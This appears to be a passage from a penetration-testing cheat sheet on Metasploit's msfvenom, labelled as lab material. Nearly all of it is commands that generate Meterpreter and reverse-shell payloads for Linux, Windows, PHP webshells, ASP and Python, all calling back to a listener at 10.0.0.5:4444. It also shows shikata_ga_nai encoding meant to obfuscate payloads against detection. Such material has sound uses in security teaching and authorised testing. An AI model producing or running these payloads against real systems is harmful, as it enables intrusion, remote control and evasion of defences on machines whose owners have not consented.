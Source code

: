 > [!important] Some exploit modules will automatically start a handler for you; others expect you to run `multi/handler` first. Read `show options` and module docs (`info`) to confirm behavior.

---

# `msfvenom` — full examples & common formats

List payloads and formats:

```bash
msfvenom -l payloads
msfvenom --list formats
```

### Example payload generation commands (lab)

Linux ELF payload:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f elf -o rev_shell.elf
```

Windows EXE payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f exe -o rev_shell.exe
```

PHP webshell (raw PHP code to drop into a PHP app in lab):

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f raw > rev_shell.php
```

ASP payload:

```bash
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f asp > rev_shell.asp
```

Python reverse command (raw):

```bash
msfvenom -p cmd/unix/reverse_python LHOST=10.0.0.5 LPORT=4444 -f raw > rev_shell.py
```

---

## Encoders — basic usage

> Encoders are legacy obfuscation; modern EDRs often detect by behavior.

```bash
# encode with shikata_ga_nai 3 iterations (x86 example)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o encoded.exe
```

---
